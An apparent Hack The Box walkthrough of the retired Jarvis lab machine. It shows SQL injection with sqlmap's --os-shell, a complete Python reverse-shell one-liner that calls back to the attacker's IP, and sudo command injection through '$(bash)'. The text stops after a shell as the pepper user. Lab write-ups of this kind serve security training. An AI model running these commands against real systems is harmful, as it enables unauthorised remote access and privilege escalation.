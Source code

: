 # Hack The Box - Jarvis walkthrough
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/jarvis.png?raw=true)

This walkthrough is about the retired Jarvis machine of Hack The box. </br>
It is a Linux based machine. </br>
This machine has a static IP address <10.10.10.143> </br>
It was a nice bit easy machine. </br>
</br>
You have to found **user.txt** and **root.txt** flag. </br> 

## Penetration Methodology

* **Scanning**
  * open ports and services
* **Enumeration**
  * Enumerating the website about vulnerablities
* **Exploitation**
  * SQLI
  * exploitation using sqlmap
  * os-shell with sqlmap
  * machine access with Reverse-shell
* **Post Exploitation**
  * getting user access
  * privelage escalation from user to root
  
Now start pentesting the **Jarvis** machine. </br>

## Checking for open ports and services

We used **nmap** for checing the open ports and what services are running.
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/nmap.png)

As we can see that port **22** and **80** are open.

**Now start enumerating the website**

When we reach the website we got a page like this </br>
![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/page.png)

## Enumerating the Website

**While enumerating the website after some time we found a page room.php** </br>

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sql_vul_room.png)

**This seems to be sql vulnerable** --> `<10.10.10.143/room.php?cod=1>` 

## Exploitation using sqlmap

Then we tried **sqlmap** with **--os-shell**
**using this** 
* `<sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell>`

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sqlmap_1.png)

And we got the shell

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/sql_1.png)

Now we can use any reverse shell to get access of the machine

**I have used the python reverse shell**

Simply execute the reverse shell and also start the listener </br>

* `<python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your ip>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'>`

**We got the shell but it is not the proper user**

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/conn.png)

Now we are www-data user so we enumerate for **user.txt** flag

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/enu_ww.png)

As we can see that only root and pepper user has privelages to read **user.txt** </br>
So we have to escalate our privelage to **pepper** user.

## Post Exploitation

So after some enumerating I look into **sudoers file**

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/w_perm.png)

As we can see that **www-data** can run **/var/www/Admin-Utilities/simpler.py** </br>
with **pepper** user permission.

So we go through the **/var/www/Admin-Utilities/simpler.py** python file </br>
and in that we can see a **exec_ping** function and it looks something suspicious for privelage escalation to **pepper**.

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/ping.png)

As there are some blacklist symbols but **$** symbol is not blacklisted. </br>

So we simply run 
* `< sudo -u pepper /var/www/Admin-Utilities/simpler.py -p >`
with **-p** which is ping option

Then it pop up with **Enter an IP** option </br>
There use the non-blacklisted symbol with bash command
* `< $(bash) >`

![](https://github.com/Har1743/Hardik-writeups/blob/master/Walkthroughs/photos/pepper_shell.png)



